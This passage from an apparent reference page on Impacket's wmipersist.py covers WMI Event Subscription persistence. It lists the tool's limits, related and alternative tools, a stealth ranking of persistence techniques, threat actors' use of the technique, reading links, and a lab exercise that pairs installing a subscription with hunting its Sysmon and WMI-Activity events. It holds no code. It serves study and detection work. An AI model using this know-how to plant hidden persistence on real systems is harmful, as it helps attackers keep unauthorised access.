- Does NOT work without local admin on the target.
- Does NOT evade Sysmon 19/20/21 detection (the events fire regardless; wmipersist is not stealth-optimized).
- Does NOT cover `CommandLineEventConsumer`, `LogFileEventConsumer`, or other consumer types without source modification.
- Does NOT install in any namespace other than `root/subscription`.
- Does NOT obfuscate the VBScript payload content.
- Does NOT provide enumeration of existing subscriptions.
- Does NOT work against modern endpoints managed in the cloud where MDE/Defender for Endpoint surfaces WMI subscription creation aggressively.


## Related tools and attack chains

`wmipersist.py` **continues Remote Execution at 6 of 7 articles (86% complete)**. Only `wmiquery.py` remains for full category closure.

### Related Impacket tools

- [`wmiexec.py`](wmiexec.md) is the companion for one shot command execution. wmiexec runs a command and exits; wmipersist installs something that runs later. The two together cover the full attack surface based on WMI.
- [`dcomexec.py`](dcomexec.md) uses DCOM for different techniques adjacent to persistence (MMC20.Application, ShellWindows, etc.) but is oriented toward execution rather than persistence.
- [`psexec.py`](psexec.md) and [`smbexec.py`](smbexec.md) are the SCMR-based execution alternatives. Complementary when WMI is locked down but SMB services are reachable.
- [`atexec.py`](atexec.md) uses the Task Scheduler for a different kind of persistence (scheduled tasks) that wmipersist's WMI Event Subscription parallels. Comparing the two is valuable: scheduled tasks are older, more visible to Autoruns and standard audit, while WMI subscriptions are subtler.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) typically precedes wmipersist in the kill chain: credential theft first, then persistence installation using the stolen credentials.
- [`wmiquery.py`](wmiquery.md) (pending, would close the category) provides the enumeration side of WMI that wmipersist lacks.

### External alternatives

- **PowerSploit `Persistence`** at `https://github.com/PowerShellMafia/PowerSploit/tree/master/Persistence`. Matt Graeber's original PowerShell implementation. Same technique on the Windows side, more flexibility in consumer types and namespaces. The foundational public implementation.
- **Empire's `powershell/persistence/elevated/wmi_updater`** module. Empire wraps the WMI Event Subscription technique in its broader command and control framework. Empire is deprecated but heavily influential.
- **`wmie2`** by vinaypamnani at `https://github.com/vinaypamnani/wmie2`. WMI Explorer utility for Windows hosts. Useful for auditing and manual subscription work.
- **Metasploit `exploit/windows/local/wmi_persistence`** module. Similar technique in Metasploit's framework. Less flexible than standalone tools.
- **Custom MOF files with `mofcomp.exe`**. The technique can be implemented without any external tool by writing a Managed Object Format file and compiling it on the target. Requires local execution, so not a remote tool, but still a common attacker pattern.
- **`Set-WmiInstance` via PowerShell**. Built into every Windows system, no tooling required. The "living off the land" variant that many APTs use.

wmipersist is the right tool when operating from a Linux attack host against a Windows target with admin credentials already obtained. For work from within Windows, PowerSploit or direct PowerShell is usually preferable for stealth (PowerShell execution policy bypass is easier from within a Windows session).

### Attack chain context



The chain highlights wmipersist's role in the broader kill chain: it's a post-exploitation persistence mechanism that assumes admin access has already been achieved. The technique is how attackers ensure their foothold survives the initial intrusion window.

### Comparative WMI persistence alternatives

| Technique | Tool | Protocol | Stealth | Reboot survival | Privilege |
|:---|:---||:---|:---||
| WMI Event Subscription (ActiveScript) | wmipersist.py | WMI/DCOM | High | Yes | SYSTEM |
| WMI Event Subscription (CommandLine) | PowerSploit / custom | WMI/DCOM | High | Yes | SYSTEM |
| Scheduled Task | atexec.py | Task Scheduler RPC | Medium | Yes | Varies (often SYSTEM) |
| Windows Service | psexec.py with service hijack | SCMR | Low-Medium | Yes | SYSTEM |
| Registry Run Key | custom | SMB to registry | Low | Yes | User context |
| Startup folder | custom | SMB file copy | Very Low | Yes | User context |
| COM hijack | dcomexec.py derivative | DCOM | High | Yes | Varies |

WMI Event Subscription (wmipersist's technique) remains one of the stealthiest options for reboot durable persistence at SYSTEM privilege level on Windows. The tradeoff is that it requires admin credentials; simpler techniques like Run keys work with user level access but provide lower privilege and higher visibility.

### Historical threat actor use

- **APT29 (Cozy Bear / The Dukes)**: documented use of WMI Event Subscription in multiple intrusion sets. The MiniDuke / CozyDuke family included WMI persistence variants.
- **Turla**: espionage campaigns spanning multiple years with WMI persistence as a core component. The WhiteBear toolkit and subsequent iterations used WMI subscriptions heavily.
- **Solorigate (SolarWinds, 2020)**: the most famous incident. The Sunspot/Sunburst/Teardrop malware chain used WMI persistence for post-exploitation durability across compromised SolarWinds Orion customers. Over 18,000 organizations affected.
- **Metador**: recently disclosed APT with sophisticated WMI-based persistence targeting telecommunications and ISP networks.
- **Cryptominer families**: many commodity coin miners use WMI persistence because it survives reboots and runs as SYSTEM (maximizing mining time).

The consistent presence of WMI Event Subscription across sophisticated APT operations explains why detection-side investment in Sysmon 19/20/21 and WMI-Activity 5859/5861 has matured significantly in the past five years.


## Further reading

- **Matt Graeber, "Abusing Windows Management Instrumentation (WMI) to Build a Persistent, Asynchronous, and Fileless Backdoor"** at `https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent-Asynchronous-And-Fileless-Backdoor-wp.pdf`. The foundational Black Hat 2015 paper. Required reading.
- **MITRE ATT&CK T1546.003** at `https://attack.mitre.org/techniques/T1546/003/`. The canonical technique reference with procedure examples across documented threat actor groups.
- **Microsoft WMI Event Subscription documentation** at `https://learn.microsoft.com/en-us/windows/win32/wmisdk/receiving-a-wmi-event`. Canonical reference for how the technique works from Microsoft's side.
- **`[MS-WMI]` Windows Management Instrumentation Remote Protocol** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/`. Protocol specification.
- **`[MS-WMIO]` Windows Management Instrumentation Encoding** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wmio/`. Instance serialization format.
- **SANS "Investigating WMI Attacks"** at `https://www.sans.org/blog/investigating-wmi-attacks/`. Defender's guide covering detection and investigation methodology.
- **Elastic Security "Adversary tradecraft 101: Hunting for persistence using Elastic Security Part 1"** at `https://www.elastic.co/blog/hunting-for-persistence-using-elastic-security-part-1`. Practical hunt queries.
- **David French / Threatpunter "Detecting and Removing an Attacker's WMI Persistence"** at `https://medium.com/threatpunter/detecting-removing-wmi-persistence-60ccbb7dff96`. Concrete PowerShell commands for enumeration and removal.
- **Hunter Strategy "WMI Persistence"** writeup at `https://blog.hunterstrategy.net/wmi-persistence/`. Recent detection-focused guide.
- **PentestLab "Persistence WMI Event Subscription"** at `https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/`. Offensive walkthrough with multiple implementation options.
- **Impacket `wmipersist.py` source** at `https://github.com/fortra/impacket/blob/master/examples/wmipersist.py`. ~400 lines of Python. Very readable.
- **PowerSploit `Persistence` module** at `https://github.com/PowerShellMafia/PowerSploit/tree/master/Persistence`. The canonical Windows-side implementation.
- **Microsoft "WMI Architecture" documentation** at `https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-architecture`. Required background for understanding how subscriptions are processed by the CIM Object Manager, WmiPrvSE.exe, and scrcons.exe.

If you want to internalize WMI Event Subscription as a technique, the productive exercise has four parts. First, install a trivial subscription in a lab (calc.exe trigger + hello world VBS payload) using wmipersist.py and verify it fires. Second, observe the Sysmon 19/20/21 events and WMI-Activity 5859/5861 events that result, understanding what each one looks like and what fields matter for hunting. Third, remove the subscription with wmipersist.py's remove subcommand and confirm all three objects are gone (check with PowerShell enumeration). Fourth, re-install the subscription via a different method (Set-WmiInstance from PowerShell, or a custom MOF file compiled with mofcomp.exe) and compare the log evidence: you'll find some detection opportunities are specific to a given tool while others (the Sysmon events specifically) catch every implementation equally. This exercise builds the complete mental model of how the technique works from both sides. Once you understand that, the specific tool choice (wmipersist vs PowerSploit vs MOF vs Empire) becomes an operational detail rather than a core skill.
